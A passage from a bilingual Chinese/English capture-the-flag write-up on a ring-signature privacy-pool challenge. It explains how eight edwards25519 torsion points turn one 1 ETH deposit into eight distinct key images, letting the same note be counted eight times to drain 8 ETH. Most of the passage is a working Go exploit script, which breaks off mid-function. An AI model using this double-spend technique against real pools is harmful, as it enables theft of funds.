- 池子总计 `8 ETH`

  Total Pool`8 ETH`

- 再一次性提出 `8 ETH` 给 `0x1337`

  Once again, propose `8 ETH` to `0x1337`

最后正好满足：

Finally, it exactly meets:

- `pool balance == 0`
- `balance(0x1337) == 8 ETH > 7 ETH`

#### **协议逆向** | **Protocol Reverse**

**1. withdraw 数据格式**

**withdraw data format**

一开始最容易踩坑的是编码格式。通过对 `geth` 二进制反汇编，可以还原出 ring 的真实编码：

At the beginning, the most common pitfall is the encoding format. By disassembling the binary of `geth`, the real encoding of ring can be restored:

```Plain
withdrawData =
  op(1 byte = 0x04)
  ringCount(1 byte)
  repeat ringCount times:
    ringSize(1 byte)
    amount(8 bytes, little-endian)
    pubkeys[ringSize][32]
    keyImage[32]
    challenge[32]
    responses[ringSize][32]
  recipient[20]
  amount(8 bytes, little-endian)
  hasChange(1 byte)
  if hasChange == 1:
    changePub[32]
    changeTxPub[32]
    changeAmount(8 bytes, little-endian)
```

这里有三个很关键的点：

Here are three very crucial points:

\- `amount` 是 **little-endian**

- ring 内部顺序是 `pubkeys -> keyImage -> challenge -> responses`

  The internal order of the ring is ` pubkeys -> keyImage -> challenge -> responses `

- 不是 `responses -> keyImage -> challenge`

  is not ` responses -> keyImage -> challenge `

如果这两点写错，就会得到我一开始遇到的报错：

If these two points are written incorrectly, you will get the error I encountered at the beginning: 

```Plain
conero: note missing on-chain
```

**2. withdraw 上下文哈希**

**withdraw context hash**

`withdrawContextHash` 的输入是：

`withdrawContextHash`'s input is:

```Plain
Keccak256(
  "conero:ring-withdraw-context" ||
  skeletonRings ||
  recipient ||
  withdrawAmount ||
  changeFlag / changeData
)
```

注意这里的 `skeletonRings` 只包含：

Note that the `skeletonRings` here only includes:

- 每个 ring 的 `ringSize`

  `ringSize of each ring`

- 每个 ring 的 `amount`

  Amount of each ring`amount`

- 每个 ring 的 `pubkeys`

  `pubkeys of each ring`

不包含 `keyImage/challenge/response`。

does not contain ` keyImage/challenge/response `. 

**3. ring challenge 的真实输入**

**Real input of ring challenge**

一开始我以为 challenge 只跟 `ctxHash + L + R` 有关，但实际链上实现是：

At first, I thought challenge was only related to `ctxHash + L + R`, but the actual on-chain implementation is:

```Plain
challenge =
  H("conero:ring-transfer-challenge" || ctxHash || keyImage || L || R)
```

这也是第二个重要坑点。如果漏掉 `keyImage`，就会触发：

This is also the second important pitfall. If you miss ` keyImage `, it will trigger: 

```Plain
conero: invalid private transfer proof
```

我最终在 `solver/main.go` 里修成了：

I finally fixed it in ` solver/main.go `: 

```Go
buf.Write(domainProofChallenge)
buf.Write(ctxHash[:])
buf.Write(keyImage[:])
buf.Write(lPoint.Bytes())
buf.Write(rPoint.Bytes())
```

**4. note 和 key image 的校验**

**Verification of note and key image**

链上 `validateInputRing` 做了两类事情：

On-chain ` validateInputRing ` does two types of things: 

1. 检查 `(pubkey, amount)` 对应的 note 是否真的存在于池子里

   Check `(pubkey, amount)` corresponding note actually exists in the pool 

2. 验证 ring signature 是否通过

   Verify whether the ring signature passes

而外层 `withdraw` 逻辑在累加输入时，并不是按 note 去重，而是按 **返回的 key image** 去重。

When the outer `withdraw` logic accumulates inputs, it does not deduplicate by note, but by  **the returned key image**  for deduplication. 

这就是整个漏洞的根源。

This is the root cause of the entire vulnerability. 

#### **漏洞原理** | **Vulnerability Principle** 

**1. 关键观察**

**Key Observations**

对一张 note，设：

For a note, let: 

- 私钥标量为 `x`

  The private key scalar is `x`

- 公钥为 `P = xG`

  Public key is `P = xG`

- `Hp(P)` 为 `hashToPoint(P)`

- 基础 key image 为 `K = x * Hp(P)`

如果我能构造出多个不同的 `K'`，并且每个 `K'` 都能通过同一张 note 的签名验证，那么外层去重 map 就只会看到“不同 key image”，从而把同一张 note 当成多张输入来累计。

If I can construct multiple different ` K' `, and each ` K' ` can pass the signature verification of the same note, then the outer deduplication map will only see "different key images", thus treating the same note as multiple inputs for accumulation. 

**2. 利用低阶点**

**Utilize low-order points**

题里用的是 edwards25519，曲线存在一个 8 阶 torsion 子群。  

The problem uses edwards25519, and the curve has an 8-order torsion subgroup. 

我使用的 8 阶生成元是：

The 8th-order generator I used is: 

```Plain
26e8958fc2b227b045c3f489f2ef98f0d5dfac05d3c63339b13802886d53fc85
```

把它生成的 8 个低阶点记作：

Denote the 8 low-order points generated by it as: 

```Plain
T0, T1, ..., T7
```

然后把基础 key image 改成：

Then change the base key image to: 

```Plain
K' = K + Ti
```

只要再让 challenge `c` 满足：

As long as challenge `c` satisfies: 

```Plain
c ≡ 0 (mod ord(Ti))
```

就可以保证验证时：

can ensure that during verification: 

```Plain
R = r * Hp(P) + c * K'
  = r * Hp(P) + c * (K + Ti)
  = r * Hp(P) + c * K + c * Ti
```

由于 `c` 被我选成了 `ord(Ti)` 的倍数，所以：

Since `c` is chosen by me as a multiple of `ord(Ti)`, we have:

```Plain
c * Ti = 0
```

于是整个验证会退化回正常签名。

Thus, the entire verification will degrade back to normal signature. 

**3. 单成员 ring 的构造**

**Construction of a single-member ring**

对单成员 ring，直接令：

For a single-member ring, directly set: 

```Plain
r = alpha - c * x
```

则验证端会得到：

Then the verification end will obtain: 

```Plain
L = rG + cP = alpha G
R = rHp(P) + cK' = alpha Hp(P)
```

所以 challenge 会被重新算回同一个值，proof 成立。

Therefore, the challenge will be recalculated back to the same value, and the proof holds.

**4. 为什么能双花**

**Why can double spending occur?**

链上逻辑的顺序大致是：

The order of on-chain logic is roughly as follows: 

1. 对每个 ring：

   For each ring: 

   1. 检查 note 存在

      Check if note exists 

   2. 验证 proof

      Verification proof

   3. 返回一个 key image

      Return a key image 

2. 外层用 `map[keyImage]` 去重

   The outer layer uses ` map[keyImage] ` for deduplication 

3. 再把所有输入 amount 累加

   Then sum up all the input amounts 

于是对于同一张 `(pubkey, amount)` note：

So for the same `(pubkey, amount)` note: 

- note existence check 每次都能过

  note existence check passes every time

- proof 每次都能过

  proof passes every time

- 但是 `keyImage = K + Ti` 每次不同

  However` keyImage = K + Ti ` varies each time 

所以同一张 note 可以在 **同一笔 withdraw** 中被算作 8 份输入。

So the same note can be counted as 8 inputs in  **the same withdraw** . 

#### **利用思路** | **Utilization Approach**

完整利用链如下：

The complete utilization chain is as follows: 

1. 生成一张自己的私有 note

   Generate a private note of your own

2. 存入 `1 ETH`

   Deposit` 1 ETH `

3. 基于同一个 `(pubkey, amount=1 ETH)` 构造 8 个单成员 ring

   Construct 8 single-member rings based on the same `(pubkey, amount=1 ETH)`

4. 8 个 ring 共用同一张 note，但 key image 分别是 `K + Ti`

   8 rings share the same note, but their key images are `K + Ti`

5. 一次性发起 withdraw，目标金额写成 `8 ETH`

   Initiate a single withdraw with the target amount set to `8 ETH`

6. 提现地址写成 `0x1337`

   Withdrawal address written as `0x1337`

这样链上会认为：

The chain will then consider: 

- 输入总额是 `8 * 1 ETH = 8 ETH`

  The input total is `8 * 1 ETH = 8 ETH`

- 输出金额也是 `8 ETH`

  The output amount is also ` 8 ETH `

- amount balance check 通过

  amount balance check passed

而真实消耗的 note 其实只有我们自己存进去的那一张 `1 ETH`。

The note actually consumed is only the one we deposited ourselves ` 1 ETH `. 

#### **自动化脚本** | **Automated Script**

```Go
package main

import (
    "bytes"
    "crypto/ecdsa"
    "crypto/rand"
    "crypto/sha256"
    "crypto/sha512"
    "encoding/binary"
    "encoding/hex"
    "encoding/json"
    "errors"
    "flag"
    "fmt"
    "io"
    "math/big"
    "net/http"
    "os"
    "strings"
    "sync"
    "time"

    "filippo.io/edwards25519"
    "github.com/ethereum/go-ethereum/common"
    "github.com/ethereum/go-ethereum/core/types"
    "github.com/ethereum/go-ethereum/crypto"
)

const (
    nativeDepositOp  = byte(0x01)
    nativeWithdrawOp = byte(0x04)

    defaultPoolAddress = "0x00000000000000000000000000000000000010c0"
    defaultRecipient   = "0x1337"
    lowOrderPointHex   = "26e8958fc2b227b045c3f489f2ef98f0d5dfac05d3c63339b13802886d53fc85"
)

var (
    domainSpendScalar     = []byte("conero/spend-scalar")
    domainHashPointBase1  = []byte("conero/hash-to-point/base-1")
    domainHashPointBase2  = []byte("conero/hash-to-point/base-2")
    domainHashToPointSc1  = []byte("conero/hash-to-point/scalar-1")
    domainHashToPointSc2  = []byte("conero/hash-to-point/scalar-2")
    domainProofChallenge  = []byte("conero:ring-transfer-challenge")
    domainWithdrawCtx     = []byte("conero:ring-withdraw-context")
    httpClient            = &http.Client{Timeout: 20 * time.Second}
    inverseCofactorScalar = mustInvertSmallScalar(8)
    identityPoint         = mustIdentityPoint()

    hashPointBase1Once sync.Once
    hashPointBase1Val  *edwards25519.Point
    hashPointBase1Err  error
    hashPointBase2Once sync.Once
    hashPointBase2Val  *edwards25519.Point
    hashPointBase2Err  error
)

type inputRing struct {
    Amount     uint64
    PublicKeys [][32]byte
    Responses  [][32]byte
    KeyImage   [32]byte
    Challenge  [32]byte
}

type outputNote struct {
    PublicKey   [32]byte
    TxPublicKey [32]byte
    Amount      uint64
}

type rpcClient struct {
    url string
}

type rpcEnvelope struct {
    JSONRPC string          `json:"jsonrpc"`
    ID      int             `json:"id"`
    Result  json.RawMessage `json:"result"`
    Error   *rpcError       `json:"error"`
}

type rpcError struct {
    Code    int    `json:"code"`
    Message string `json:"message"`
}

type txReceipt struct {
    Status string `json:"status"`
}

type powResponse struct {
    OK      bool   `json:"ok"`
    Prefix  string `json:"prefix"`
    Bits    int    `json:"bits"`
    Command string `json:"command"`
}

type newResponse struct {
    OK            bool   `json:"ok"`
    UUID          string `json:"uuid"`
    PlayerAddress string `json:"player_address"`
    PlayerKey     string `json:"player_key"`
    Deployer      string `json:"deployer_address"`
    RPCURL        string `json:"rpc_url"`
    Error         string `json:"error"`
    Message       string `json:"message"`
}

type flagResponse struct {
    OK      bool   `json:"ok"`
    Flag    string `json:"flag"`
    Message string `json:"message"`
    Error   string `json:"error"`
}

func main() {
    if len(os.Args) < 2 {
        usage()
        os.Exit(2)
    }

    switch os.Args[1] {
    case "note-pub":
        if err := cmdNotePub(os.Args[2:]); err != nil {
            die(err)
        }
    case "double-withdraw":
        if err := cmdDoubleWithdraw(os.Args[2:]); err != nil {
            die(err)
        }
    case "remote-solve":
        if err := cmdRemoteSolve(os.Args[2:]); err != nil {
            die(err)
        }
    default:
        usage()
        os.Exit(2)
    }
}

func usage() {
    fmt.Fprintf(os.Stderr, "usage:\n")
    fmt.Fprintf(os.Stderr, "  go run . note-pub --secret <hex>\n")
    fmt.Fprintf(os.Stderr, "  go run . double-withdraw --rpc <url> --sender-key <hex>\n")
    fmt.Fprintf(os.Stderr, "  go run . remote-solve --base-url <url>\n")
}

func cmdNotePub(args []string) error {
    fs := flag.NewFlagSet("note-pub", flag.ContinueOnError)
    secretHex := fs.String("secret", "", "32-byte note secret (hex)")
    if err := fs.Parse(args); err != nil {
        return err
    }
    if *secretHex == "" {
        return errors.New("missing --secret")
    }
    secret, err := decodeHex32(*secretHex)
    if err != nil {
        return err
    }
    pub, err := notePublicKey(secret)
    if err != nil {
        return err
    }
    fmt.Println(hex.EncodeToString(pub[:]))
    return nil
}

func cmdDoubleWithdraw(args []string) error {
    fs := flag.NewFlagSet("double-withdraw", flag.ContinueOnError)
    rpcURL := fs.String("rpc", "", "json-rpc url")
    senderKeyHex := fs.String("sender-key", "", "sender private key")
    poolHex := fs.String("pool", defaultPoolAddress, "conero pool address")
    recipientHex := fs.String("recipient", defaultRecipient, "withdraw recipient")
    depositWei := fs.String("deposit-wei", "1000000000000000000", "deposit amount in wei")
    copies := fs.Int("copies", 8, "number of duplicated input rings")
    if err := fs.Parse(args); err != nil {
        return err
    }
    if *rpcURL == "" || *senderKeyHex == "" {
        return errors.New("missing --rpc or --sender-key")
    }

    senderKey, err := crypto.HexToECDSA(strings.TrimPrefix(*senderKeyHex, "0x"))
    if err != nil {
        return fmt.Errorf("decode sender key: %w", err)
    }

    amountWei, ok := new(big.Int).SetString(*depositWei, 10)
    if !ok {
        return fmt.Errorf("invalid deposit amount %q", *depositWei)
    }
    if amountWei.Sign() <= 0 {
        return errors.New("deposit amount must be positive")
    }
    depositAmount, err := bigIntToUint64(amountWei)
    if err != nil {
        return fmt.Errorf("deposit amount: %w", err)
    }

    client := &rpcClient{url: *rpcURL}
    pool := common.HexToAddress(*poolHex)
    recipient := common.HexToAddress(*recipientHex)

    return depositAndDoubleWithdraw(client, senderKey, pool, recipient, depositAmount, *copies)
}

func cmdRemoteSolve(args []string) error {
    fs := flag.NewFlagSet("remote-solve", flag.ContinueOnError)
    baseURL := fs.String("base-url", "http://43.200.70.230", "instancer base url")
    if err := fs.Parse(args); err != nil {
        return err
    }

    info, err := createRemoteInstance(strings.TrimRight(*baseURL, "/"))
    if err != nil {
        return err
    }

    fmt.Printf("instance uuid=%s rpc=%s player=%s\n", info.UUID, info.RPCURL, info.PlayerAddress)

    playerKey, err := crypto.HexToECDSA(strings.TrimPrefix(info.PlayerKey, "0x"))
    if err != nil {
        return fmt.Errorf("decode player key: %w", err)
    }

    client := &rpcClient{url: info.RPCURL}
    if err := depositAndDoubleWithdraw(
        client,
        playerKey,
        common.HexToAddress(defaultPoolAddress),
        common.HexToAddress(defaultRecipient),
        1_000_000_000_000_000_000,
        8,
    ); err != nil {
        return err
    }

    flagURL := fmt.Sprintf("%s/%s/flag", strings.TrimRight(*baseURL, "/"), info.UUID)
    var flagResp flagResponse
    if err := httpJSON(http.MethodGet, flagURL, nil, &flagResp); err != nil {
        return err
    }
    if !flagResp.OK {
        return fmt.Errorf("flag check failed: %s %s", flagResp.Error, flagResp.Message)
    }

    fmt.Println(flagResp.Flag)
    return nil
}

func depositAndDoubleWithdraw(client *rpcClient, senderKey *ecdsa.PrivateKey, pool, recipient common.Address, depositAmount uint64, copies int) error {
    if copies < 1 || copies > 8 {
        return fmt.Errorf("copies must be between 1 and 8, got %d", copies)
    }

    var secret [32]byte
    if _, err := rand.Read(secret[:]); err != nil {
        return err
    }
    pub, err := notePublicKey(secret)
    if err != nil {
        return err
    }

    fmt.Printf("note secret=%s\n", hex.EncodeToString(secret[:]))
    fmt.Printf("note public=%s\n", hex.EncodeToString(pub[:]))

    depositGas, err := client.estimateGas(txCall{
        From:  crypto.PubkeyToAddress(senderKey.PublicKey),
        To:    &pool,
        Value: new(big.Int).SetUint64(depositAmount),
        Data:  encodeDepositData(pub, [32]byte{}),
    })
    if err != nil {
        return fmt.Errorf("estimate deposit gas: %w", err)
    }
    depositTx, err := client.sendSignedTransaction(senderKey, pool, new(big.Int).SetUint64(depositAmount), depositGas+20_000, encodeDepositData(pub, [32]byte{}))
    if err != nil {
        return fmt.Errorf("send deposit: %w", err)
    }
    fmt.Printf("deposit tx=%s\n", depositTx)
    if err := client.waitForReceiptSuccess(depositTx); err != nil {
        return fmt.Errorf("deposit receipt: %w", err)
    }
    fmt.Println("deposit confirmed")

    rings, totalAmount, err := buildDuplicatedWithdrawRings(pub, secret, depositAmount, copies, recipient)
    if err != nil {
        return err
    }

    withdrawData := encodeWithdrawData(rings, recipient, totalAmount, nil)
    withdrawGas, err := client.estimateGas(txCall{
        From:  crypto.PubkeyToAddress(senderKey.PublicKey),
        To:    &pool,
        Value: big.NewInt(0),
        Data:  withdrawData,
    })
    if err != nil {
        return fmt.Errorf("estimate withdraw gas: %w", err)
    }
    withdrawTx, err := client.sendSignedTransaction(senderKey, pool, big.NewInt(0), withdrawGas+50_000, withdrawData)
    if err != nil {
        return fmt.Errorf("send withdraw: %w", err)
    }
    fmt.Printf("withdraw tx=%s amount=%d\n", withdrawTx, totalAmount)
    if err := client.waitForReceiptSuccess(withdrawTx); err != nil {
        return fmt.Errorf("withdraw receipt: %w", err)
    }

    poolBalance, err := client.balance(pool)
    if err != nil {
        return err
    }
    recipientBalance, err := client.balance(recipient)
    if err != nil {
        return err
    }
    fmt.Printf("pool balance=%s recipient balance=%s\n", poolBalance.String(), recipientBalance.String())
    return nil
}

func buildDuplicatedWithdrawRings(pub [32]byte, secret [32]byte, amount uint64, copies int, recipient common.Address) ([]inputRing, uint64, error) {
    generator, err := findTorsionGenerator()
    if err != nil {
        return nil, 0, err
    }
    subgroup := torsionSubgroup(generator)
    if copies > len(subgroup) {
        return nil, 0, fmt.Errorf("need %d torsion points, only have %d", copies, len(subgroup))
    }
    spendScalar, err := scalarFromSecret(secret)
    if err != nil {
        return nil, 0, err
    }
    hashPoint, err := hashToPoint(pub)
    if err != nil {
        return nil, 0, err
    }
    baseKeyImage := new(edwards25519.Point).ScalarMult(spendScalar, hashPoint)

    total := amount * uint64(copies)
    skeleton := make([]inputRing, copies)
    for i := range skeleton {
        skeleton[i] = inputRing{
            Amount:     amount,
            PublicKeys: [][32]byte{pub},
        }
    }
    ctxHash := withdrawContextHash(skeleton, recipient, total, nil)

    rings := make([]inputRing, 0, copies)
    for i := 0; i < copies; i++ {
        offset := subgroup[i]
        order := pointOrder(offset)
        fmt.Printf("sign ring %d/%d order=%d\n", i+1, copies, order)
        ring, err := signSingleMemberRing(ctxHash, amount, pub, spendScalar, hashPoint, baseKeyImage, offset, order)
        if err != nil {
            return nil, 0, fmt.Errorf("sign ring %d: %w", i, err)
        }
        rings = append(rings, ring)
    }

    return rings, total, nil
}

func signSingleMemberRing(ctxHash [32]byte, amount uint64, pub [32]byte, spendScalar *edwards25519.Scalar, hashPoint, baseKeyImage, keyImageOffset *edwards25519.Point, offsetOrder int) (inputRing, error) {
    keyImage := new(edwards25519.Point).Set(baseKeyImage)
    if keyImageOffset != nil {
        keyImage = new(edwards25519.Point).Add(baseKeyImage, keyImageOffset)
    }
    keyImageBytes := array32(keyImage.Bytes())

    for tries := 0; tries < 4096; tries++ {
        alpha, err := randomScalar()
        if err != nil {
            return inputRing{}, err
        }
        lPoint := new(edwards25519.Point).ScalarBaseMult(alpha)
        rPoint := new(edwards25519.Point).ScalarMult(alpha, hashPoint)
        challenge, err := ringChallenge(ctxHash, keyImageBytes, lPoint, rPoint)
        if err != nil {
            return inputRing{}, err
        }
        if !scalarDivisibleBy(challenge, offsetOrder) {
            continue
        }
        response := new(edwards25519.Scalar).Subtract(alpha, new(edwards25519.Scalar).Multiply(challenge, spendScalar))
        return inputRing{
            Amount:     amount,
            PublicKeys: [][32]byte{pub},
            Responses:  [][32]byte{array32(response.Bytes())},
            KeyImage:   keyImageBytes,
            Challenge:  array32(challenge.Bytes()),
        }, nil
    }

    return inputRing{}, fmt.Errorf("failed to find challenge divisible by %d", offsetOrder)
}

func encodeDepositData(publicKey [32]byte, txPublicKey [32]byte) []byte {
    data := make([]byte, 65)
    data[0] = nativeDepositOp
    copy(data[1:], publicKey[:])
    copy(data[33:], txPublicKey[:])
    return data
}

func encodeWithdrawData(rings []inputRing, recipient common.Address, amount uint64, change *outputNote) []byte {
    var out bytes.Buffer
    out.WriteByte(nativeWithdrawOp)
    out.Write(encodeRings(rings))
    out.Write(recipient.Bytes())
    writeU64(&out, amount)
    if change == nil {
        out.WriteByte(0)
        return out.Bytes()
    }
    out.WriteByte(1)
    out.Write(change.PublicKey[:])
    out.Write(change.TxPublicKey[:])
    writeU64(&out, change.Amount)
    return out.Bytes()
}

func encodeRings(rings []inputRing) []byte {
    var out bytes.Buffer
    out.WriteByte(byte(len(rings)))
    for _, ring := range rings {
        out.WriteByte(byte(len(ring.PublicKeys)))
        writeU64(&out, ring.Amount)
        for _, pub := range ring.PublicKeys {
            out.Write(pub[:])
        }
        out.Write(ring.KeyImage[:])
        out.Write(ring.Challenge[:])
        for _, resp := range ring.Responses {
            out.Write(resp[:])
        }
    }
    return out.Bytes()
}

func withdrawContextHash(rings []inputRing, recipient common.Address, amount uint64, change *outputNote) [32]byte {
    var buf bytes.Buffer
    buf.Write(domainWithdrawCtx)
    buf.WriteByte(byte(len(rings)))
    for _, ring := range rings {
        buf.WriteByte(byte(len(ring.PublicKeys)))
        writeU64(&buf, ring.Amount)
        for _, pub := range ring.PublicKeys {
            buf.Write(pub[:])
        }
    }
    buf.Write(recipient.Bytes())
    writeU64(&buf, amount)
    if change == nil {
        buf.WriteByte(0)
    } else {
        buf.WriteByte(1)
        buf.Write(change.PublicKey[:])
        buf.Write(change.TxPublicKey[:])
        writeU64(&buf, change.Amount)
    }
    return crypto.Keccak256Hash(buf.Bytes())
}

func ringChallenge(ctxHash [32]byte, keyImage [32]byte, lPoint, rPoint *edwards25519.Point) (*edwards25519.Scalar, error) {
    var buf bytes.Buffer
    buf.Write(domainProofChallenge)
    buf.Write(ctxHash[:])
    buf.Write(keyImage[:])
    buf.Write(lPoint.Bytes())
    buf.Write(rPoint.Bytes())
    sum := sha512.Sum512(buf.Bytes())
    return new(edwards25519.Scalar).SetUniformBytes(sum[:])
}

func notePublicKey(secret [32]byte) ([32]byte, error) {
    scalar, err := scalarFromSecret(secret)
    if err != nil {
        return [32]byte{}, err
    }
    return array32(new(edwards25519.Point).ScalarBaseMult(scalar).Bytes()), nil
}

func scalarFromSecret(secret [32]byte) (*edwards25519.Scalar, error) {
    return uniformScalar(domainSpendScalar, secret[:])
}

func hashToPoint(pub [32]byte) (*edwards25519.Point, error) {
    s1, err := uniformScalar(domainHashToPointSc1, pub[:])
    if err != nil {
        return nil, err
    }
    s2, err := uniformScalar(domainHashToPointSc2, pub[:])
    if err != nil {
        return nil, err
    }
    p1, err := hashPointBase1()
    if err != nil {
        return nil, err
    }
    p2, err := hashPointBase2()
    if err != nil {
        return nil, err
    }
    point := new(edwards25519.Point).Add(
        new(edwards25519.Point).ScalarMult(s1, p1),
        new(edwards25519.Point).ScalarMult(s2, p2),
    )
    if point.Equal(identityPoint) == 1 {
        return nil, errors.New("hashToPoint returned identity")
    }
    return point, nil
}

func hashPointBase1() (*edwards25519.Point, error) {
    hashPointBase1Once.Do(func() {
        hashPointBase1Val, hashPointBase1Err = deriveHashPointBase(domainHashPointBase1)
    })
    return hashPointBase1Val, hashPointBase1Err
}

func hashPointBase2() (*edwards25519.Point, error) {
    hashPointBase2Once.Do(func() {
        hashPointBase2Val, hashPointBase2Err = deriveHashPointBase(domainHashPointBase2)
    })
    return hashPointBase2Val, hashPointBase2Err
}

func deriveHashPointBase(domain []byte) (*edwards25519.Point, error) {
    for counter := uint32(0); ; counter++ {
        var payload bytes.Buffer
        payload.Write(domain)
        _ = binary.Write(&payload, binary.LittleEndian, counter)
        sum := sha512.Sum512(payload.Bytes())
        point, err := new(edwards25519.Point).SetBytes(sum[:32])
        if err != nil {
            continue
        }
        if err := verifyPrimeOrderPoint(point); err == nil {
            return point, nil
        }
    }
}

func verifyPrimeOrderPoint(point *edwards25519.Point) error {
    if point.Equal(identityPoint) == 1 {
        return errors.New("identity point")
    }
    cofactored := new(edwards25519.Point).MultByCofactor(point)
    if cofactored.Equal(identityPoint) == 1 {
        return errors.New("not prime order")
    }
    recovered := new(edwards25519.Point).ScalarMult(inverseCofactorScalar, cofactored)
    if recovered.Equal(point) != 1 {
        return errors.New("not prime order")
    }
    return nil
}

func findTorsionGenerator() (*edwards25519.Point, error) {
    raw, err := hex.DecodeString(lowOrderPointHex)
    if err != nil {
        return nil, err
    }
    point, err := new(edwards25519.Point).SetBytes(raw)
    if err != nil {
        return nil, err
    }
    if order := pointOrder(point); order == 8 {
        return point, nil
    }
    return nil, fmt.Errorf("low-order point is not order 8")
}

func torsionSubgroup(generator *edwards25519.Point) []*edwards25519.Point {
    out := make([]*edwards25519.Point, 0, 8)
    cur := new(edwards25519.Point).Set(identityPoint)
    for i := 0; i < 8; i++ {
        out = append(out, new(edwards25519.Point).Set(cur))
        cur = new(edwards25519.Point).Add(cur, generator)
    }
    return out
}

func pointOrder(point *edwards25519.Point) int {
    if point == nil || point.Equal(identityPoint) == 1 {
        return 1
    }
    cur := new(edwards25519.Point).Set(point)
    for order := 1; order <= 8; order++ {
        if cur.Equal(identityPoint) == 1 {
            return order
        }
        cur = new(edwards25519.Point).Add(cur, point)
    }
    return 0
}

func scalarDivisibleBy(s *edwards25519.Scalar, divisor int) bool {
    if divisor <= 1 {
        return true
    }
    raw := s.Bytes()
    mask := byte(divisor - 1)
    return raw[0]&mask == 0
}

func randomScalar() (*edwards25519.Scalar, error) {
    var seed [64]byte
    if _, err := rand.Read(seed[:]); err != nil {
        return nil, err
    }
    return new(edwards25519.Scalar).SetUniformBytes(seed[:])
}

func uniformScalar(domain []byte, msg []byte) (*edwards25519.Scalar, error) {
    var buf bytes.Buffer
    buf.Write(domain)
    buf.Write(msg)
    sum := sha512.Sum512(buf.Bytes())
    return new(edwards25519.Scalar).SetUniformBytes(sum[:])
}

func createRemoteInstance(baseURL string) (*newResponse, error) {
    var pow powResponse
    if err := httpJSON(http.MethodGet, baseURL+"/pow", nil, &pow); err != nil {
        return nil, err
    }
    if !pow.OK {
        return nil, fmt.Errorf("pow failed: %+v", pow)
    }
    nonce, err := solvePow(pow.Prefix, pow.Bits)
    if err != nil {
        return nil, err
    }
    req := map[string]string{
        "pow_prefix": pow.Prefix,
        "pow_nonce":  nonce,
    }
    var resp newResponse
    if err := httpJSON(http.MethodPost, baseURL+"/new", req, &resp); err != nil {
        return nil, err
    }
    if !resp.OK {
        return nil, fmt.Errorf("create instance failed: %s %s", resp.Error, resp.Message)
    }
    return &resp, nil
}

func solvePow(prefix string, bits int) (string, error) {
    target := new(big.Int).Lsh(big.NewInt(1), uint(256-bits))
    for i := uint64(0); i < 1<<32; i++ {
        nonce := fmt.Sprintf("%d", i)
        sum := sha256.Sum256([]byte(prefix + nonce))
        if new(big.Int).SetBytes(sum[:]).Cmp(target) < 0 {
            return nonce, nil
        }
    }
    return "", errors.New("pow not found")
}

func httpJSON(method, url string, body any, out any) error {
    var reader io.Reader
    if body != nil {
        payload, err := json.Marshal(body)
        if err != nil {
            return err
        }
        reader = bytes.NewReader(payload)
    }
    req, err := http.NewRequest(method, url, reader)
    if err != nil {
        return err
    }
    if body != nil {
        req.Header.Set("Content-Type", "application/json")
    }
    resp, err := httpClient.Do(req)
    if err != nil {
        return err
    }
    defer resp.Body.Close()
    if resp.StatusCode != http.StatusOK {
        payload, _ := io.ReadAll(resp.Body)
        return fmt.Errorf("http %s: %s", resp.Status, strings.TrimSpace(string(payload)))
    }
    if out == nil {
        _, _ = io.Copy(io.Discard, resp.Body)
        return nil
    }
    return json.NewDecoder(resp.Body).Decode(out)
}

type txCall struct {
    From  common.Address
    To    *common.Address
    Value *big.Int
    Data  []byte
}

func (c *rpcClient) sendSignedTransaction(key *ecdsa.PrivateKey, to common.Address, value *big.Int, gas uint64, data []byte) (string, error) {
    chainID, err := c.chainID()
    if err != nil {
        return "", err
    }
    nonce, err := c.nonce(crypto.PubkeyToAddress(key.PublicKey))
    if err != nil {
        return "", err
    }
    gasPrice, err := c.gasPrice()
    if err != nil {
        return "", err
    }
    tx := types.NewTx(&types.LegacyTx{
        Nonce:    nonce,
        To:       &to,
        Value:    value,
        Gas:      gas,
        GasPrice: gasPrice,
        Data:     data,
    })
    signed, err := types.SignTx(tx, types.NewEIP155Signer(chainID), key)
    if err != nil {
        return "", err
    }
    raw, err := signed.MarshalBinary()
    if err != nil {
        return "", err
    }
    var txHash string
    if err := c.call("eth_sendRawTransaction", []any{"0x" + hex.EncodeToString(raw)}, &txHash); err != nil {
        return "", err
    }
    return txHash, nil
}

func (c *rpcClient) estimateGas(call txCall) (uint64, error) {
    obj := map[string]any{
        "from": call.From.Hex(),
        "to":   call.To.Hex(),
        "data": "0x" + hex.EncodeToString(call.Data),
    }
    if call.Value != nil && call.Value.Sign() != 0 {
        obj["value"] = hexBig(call.Value)
    }
    var out string
    if err := c.call("eth_estimateGas", []any{obj}, &out); err != nil {
        return 0, err
    }
    return hexToUint64(out)
}

func (c *rpcClient) waitForReceiptSuccess(txHash string) error {
    deadline := time.Now().Add(20 * time.Second)
    for time.Now().Before(deadline) {
        var raw json.RawMessage
        if err := c.call("eth_getTransactionReceipt", []any{txHash}, &raw); err != nil {
            return err
        }
        if string(raw) == "null" {
            time.Sleep(200 * time.Millisecond)
            continue
        }
        var receipt txReceipt
        if err := json.Unmarshal(raw, &receipt); err != nil {
            return err
        }
        if receipt.Status != "" && receipt.Status != "0x1" {
            return fmt.Errorf("transaction reverted with status %s", receipt.Status)
        }
        return nil
    }
    return fmt.Errorf("timed out waiting for receipt %s", txHash)
}

func (c *rpcClient) chainID() (*big.Int, error) {
    return c.hexBig("eth_chainId", nil)
}

func (c *rpcClient) gasPrice() (*big.Int, error) {
    return c.hexBig("eth_gasPrice", nil)
}

func (c *rpcClient) balance(addr common.Address) (*big.Int, error) {
    return c.hexBig("eth_getBalance", []any{addr.Hex(), "latest"})
}

func (c *rpcClient) nonce(addr common.Address) (uint64, error) {
    value, err := c.hexBig("eth_getTransactionCount", []any{addr.Hex(), "pending"})
    if err != nil {
        return 0, err
    }
    return value.Uint64(), nil
}

func (c *rpcClient) hexBig(method string, params []any) (*big.Int, error) {
    var out string
    if err := c.call(method, params, &out); err != nil {
        return nil, err
    }
    return hexToBig(out)
}

func (c *rpcClient) call(method string, params []any, out any) error {
    if params == nil {
        params = []any{}
    }
    payload := map[string]any{
        "jsonrpc": "2.0",
        "id":      1,
        "method":  method,
        "params":  params,
    }
    raw, err := json.Marshal(payload)
    if err != nil {
        return err
    }
    req, err := http.NewRequest(http.MethodPost, c.url, bytes.NewReader(raw))
    if err != nil {
        return err
    }
    req.Header.Set("Content-Type", "application/json")
    resp, err := httpClient.Do(req)
    if err != nil {
        return err
    }
    defer resp.Body.Close()
    if resp.StatusCode != http.StatusOK {
        payload, _ := io.ReadAll(resp.Body)
        return fmt.Errorf("rpc %s: %s", resp.Status, strings.TrimSpace(string(payload)))
    }
    var env rpcEnvelope
    if err := json.NewDecoder(resp.Body).Decode(&env); err != nil {
        return err
    }
    if env.Error != nil {
